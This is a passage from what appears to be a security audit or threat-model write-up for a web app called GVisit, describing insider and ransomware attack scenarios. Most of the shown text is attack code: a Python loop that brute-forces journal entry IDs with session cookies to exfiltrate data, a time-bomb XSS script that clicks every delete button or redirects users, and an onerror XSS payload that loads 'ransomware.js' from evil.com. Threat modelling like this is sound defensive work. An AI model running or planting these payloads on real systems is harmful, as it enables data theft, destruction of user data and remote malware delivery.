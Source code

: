 ### Step 3: Data Exfiltration
```python
# Download all accessible data
for entry_id in range(1, 10000):  # Brute force IDs
    try:
        data = requests.get(f'/journal/edit/{entry_id}', cookies=cookies)
        if "Entry not found" not in data.text:
            save_entry(data)
    except:
        pass

# Download all PowerPoints they still have access to
for ppt in ['financial_report', 'strategy_2024', 'layoff_plans']:
    download_ppt(ppt)
```

### Step 4: Sabotage
```javascript
// Inject time-bomb XSS that activates later
<script>
if (new Date() > new Date('2024-12-25')) {
    // Christmas surprise - delete all entries
    document.querySelectorAll('.delete-btn').forEach(btn => btn.click());
    // Or redirect to competitor
    window.location = 'https://competitor.com/we-are-better';
}
</script>
```

**Total Impact**:
- Continued access after termination
- Intellectual property theft
- Potential sabotage
- Reputation damage

---

## 💰 Attack Scenario 3: The Ransomware Gang

**Target**: Any GVisit installation with valuable data

### Step 1: Initial Compromise via Tag XSS
```javascript
// User innocently adds tag: <img src=logo.png>
// But attacker exploits parsing to inject:
<img src=x onerror="
// Download ransomware payload
const script = document.createElement('script');
script.src = 'https://evil.com/ransomware.js';
document.head.appendChild(script);
">
```
